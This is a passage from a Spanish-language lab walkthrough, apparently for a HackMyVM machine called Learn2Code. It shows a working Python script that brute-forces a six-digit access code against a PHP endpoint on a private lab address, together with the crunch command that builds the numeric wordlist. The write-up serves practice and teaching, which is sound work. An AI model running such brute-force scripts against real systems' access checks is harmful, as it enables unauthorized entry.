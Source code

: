 En la línea 27 nos encontramos con esta porción de código, está definiendo el mínimo y el máximo de caracteres.

Ya sabemos que el código es de seis caracteres, vamos a ver si podemos descrifrarlo con fuerza bruta.

### Fuerza Bruta
Para este paso me hice un `script` en `Python`, vamos a verlo:

```python
import requests

with open("wordlist", "r") as numbers:
        lines = numbers.readlines()
        for number in lines:
                number = number.replace("\n", "")

                headers = {
                        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0',
                        'Accept': '*/*',
                        'Accept-Language': 'en-US,en;q=0.5',
                        # 'Accept-Encoding': 'gzip, deflate',
                        'Content-type': 'application/x-www-form-urlencoded',
                        'Origin': 'http://192.168.1.114',
                        'Connection': 'keep-alive',
                        'Referer': 'http://192.168.1.114/',
                }

                data = {
                        'action': 'check_code',
                        'code': f'{number}',
                }

                r = requests.post('http://192.168.1.106/includes/php/access.php', headers=headers, data=data)
                if not "wrong" in str(r.content):
                        print(f"Found Code: {number}")
                        break
                else:
                        print(f"{number}", end="\r")
```

Este `script` irá iterando por un diccionario que previamente he creado con **Crunch**:

```sh
┌──(root㉿kali)-[~/…/VMs/HMV/Learn2Code/scripts]
└─# crunch 6 6 0123456789 -o wordlist
Crunch will now generate the following amount of data: 7000000 bytes
6 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 1000000 

crunch: 100% completed generating output
```
